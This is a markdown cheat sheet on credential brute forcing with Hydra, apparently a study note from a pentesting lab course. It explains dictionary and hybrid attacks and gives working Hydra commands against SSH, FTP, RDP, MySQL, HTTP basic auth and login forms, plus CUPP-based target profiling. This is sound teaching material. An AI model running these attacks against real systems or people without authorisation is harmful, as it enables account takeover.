


# Hydra

This document summarizes practical techniques for brute forcing with **Hydra**. It is by no means an exhaustive guide.

# Table of Contents

- [Overview](#overview)
- [Brute Force Attacks](#brute-force-attacks)
  - [Pure Brute Force Attack](#pure-brute-force-attack)
  - [Dictionary Attack](#dictionary-attack)
  - [Hybrid Attack](#hybrid-attack)
- [Hydra](#hydra)
  - [Attacking HTTP Basic Authentication](#attacking-http-basic-authentication)
  - [Attacking Login Forms](#attacking-login-forms)
  - [Attacking SSH and FTP](#attacking-ssh-and-ftp)
- [Custom Wordlists](#custom-wordlists)
  - [Username Anarchy](#username-anarchy)
  - [CUPP](#cupp)

---

# Overview

The success of a brute force attack depends on three main components:

- Password complexity
- Computational power
- Security measures

A longer and more complex password obviously requires more time and computational resources to crack. The following guidelines should be followed when creating passwords:

| Attribute        | Guideline                                                   |
| ---------------- | ----------------------------------------------------------- |
| `Length`         | `Minimum of 12 characters.`                                 |
| `Complexity`     | `Combination of lowercase, uppercase, numbers and symbols.` |
| `Uniqueness`     | `A unique password for each service (no reuse).`            |
| `Randomness`     | `As much randomness as possible.`                           |

To fully grasp the challenge of brute forcing passwords one must understand the underlying equation that determines the total number of possible combinations:

- $N = c^n$
    - N = total number of possible combinations
    - c = number of characters in character set
    - n = number of characters in password

Example:

A 6 character password containing only lowercase letters from the English alphabet has over 300 million possible combinations.

- $N = 26^6 = 308,915,776$

---

# Brute Force Attacks

## Pure Brute Force Attack

A pure brute force attack tests every possible combination of characters within a predetermined character set. This approach guarantees success given enough time, however, this time span can be extremely long. 

## Dictionary Attack

Humans have a tendency to prioritize memorable passwords over secure ones. This makes them vulnerable to dictionary attacks. A dictionary attack systematically tests a pre-defined wordlist of passwords against the target. This significantly reduces the search space compared to pure brute force attacks.

Common wordlists:

- rockyou.txt
- xato-net-10-million-passwords-1000000.txt
- 2020-200_most_used_passwords.txt

## Hybrid Attack

Hybrid attacks combine the strengths of dictionary and brute force attacks, thus increasing the likelihood of success. Hybrid attacks are commonly used when the attacker has knowledge of the targets password policy. 

Suppose that the target organization implements the following password policy:

- Minimum length: 8 characters
- Must include:
    - At least one uppercase letter
    - At least one lowercase letter
    - At least one number

With this knowledge the attacker can take a huge wordlist and extract only the passwords that adhere to the password policy:

Minimum 8 characters:

```bash
grep -E '^.{8,}$' rockyou.txt > rockyou-minlength.txt 
```

At least one uppercase letter:
```bash
grep -E '[A-Z]' rockyou-minlength.txt > rockyou-uppercase.txt
```

At least one lowercase letter:
```bash
grep -E '[a-z]' rockyou-uppercase.txt > rockyou-lowercase.txt 
```

At least one number:
```bash
grep -E '[0-9]' rockyou-lowercase.txt > filtered.txt 
```

---

# Hydra

Hydra is a brute forcing tool that can be used to attack a plethora of different services. Hydra utilizes parallel threads to speed up the brute forcing process. 

Built-in modules are utilized to properly interact with different protocols and their authentication mechanisms. 

Examples:

```bash
hydra -l admin -P rockyou.txt ftp://192.168.1.100
```

```bash
hydra -l root -P rockyou.txt ssh://192.168.1.100
```

```bash
hydra -l root -P rockyou.txt mysql://192.168.1.100
```

```bash
hydra -l admin -P rockyou.txt rdp://192.168.1.100
```

```bash
hydra -l admin -P rockyou.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```

```bash
hydra -l admin -P rockyou.txt 192.168.1.100 http-get "/"
```

Hydra targets the default port if not instructed otherwise. Specify a non-default port with the **-s** flag:

```bash
hydra -l admin -P rockyou.txt ftp://192.168.1.100 -s 2121
```

The number of parallel threads is modified with the **-t** flag:

```bash
hydra -l admin -P rockyou.txt ftp://192.168.1.100 -t 20
```

## Attacking HTTP Basic Authentication

Basic auth is popular because of how easy it is to implement. However, it has inherent vulnerabilities, which makes it a prime target for brute force attacks.

Basic auth is a challenge-response protocol, where the server demands credentials before providing access to a protected resource. After providing a username and password the browser concatenates them into a colon separated string. This string is **base64 encoded** and passed to the **Authorization header** in the HTTP request. The server **base64 decodes** the credentials and verifies them against records in its database.

A GET request containing basic auth:


**Example:**

Brute force basic auth using the **http-get** module:

```bash
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 94.237.60.55 http-get / -s 58596
```


## Attacking Login Forms

The **http-post-form** module is used to attack login forms. For this to work the Hydra command must be crafted properly, based on the actual POST request. 

**Examples:**

```bash
hydra -l admin -P rockyou.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Invalid credentials"
```

```bash
hydra -l admin -P rockyou.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:S=Dashboard"
```

The http-post-form parameters have the following structure:

- "path:parameters:condition-string"
- "/login.php:user=^USER^&pass=^PASS^:F=Invalid credentials"

The **path** must be the path to the login form (/login.php).

The **parameters** are the POST parameters sent to the server (user, pass). ^USER^ and ^PASS^ serve as placeholders where Hydra will insert values from the wordlists. If the request includes other POST parameters, they must be included as well.

The **condition string** is crucial for distinguishing between valid and invalid login attempts. Hydra primarily relies on failure conditions (F=Invalid credentials) to define a failed login attempt. But success conditions can also be used (S=Dashboard, S=302).

**Example:**

The following request was intercepted from a login form:



When entering random credentials an error message saying "**Invalid credentials**" pops up:



We have obtained all information necessary in order to craft a proper Hydra command:

```bash
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt 94.237.61.242 -s 55332 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials" -f
```


## Attacking SSH and FTP

SSH and FTP facilitate secure remote access and file management. However, they often rely on traditional username- and password combinations, making them vulnerable to brute force attacks. 

**Examples:**

```bash
hydra -l sshuser -P 2023-200_most_used_passwords.txt ssh://94.237.54.192
```


```bash
hydra -l ftpuser -P 2023-200_most_used_passwords.txt ftp://94.237.54.192
```

---

# Custom Wordlists

Pre-compiled wordlists cast a wide-net in hopes of finding the right combination. When targeting specific individuals or organisations with unique password policies, custom wordlists are often a better option.

Common programs for creating custom wordlists include:

- Username Anarchy
- CUPP (Common User Passwords Profiler)

## Username Anarchy

Username Anarchy creates custom username wordlists. 

To use the program you must first install Ruby, then clone the script from Github:

```bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```

To create a wordlist, execute the script with the targets first and last name as arguments:

```bash
./username-anarchy Jane Smith > usernames.txt
```

## CUPP

CUPP creates custom password wordlists tailored to a specific target. 

The effectiveness of CUPP depends on the information you feed it. The more information you have about the target, the better. When starting CUPP in interactive mode you are prompted with questions about the target. A wordlist is then created based on your answers. 

```bash
sudo apt install cupp -y
cupp -i
```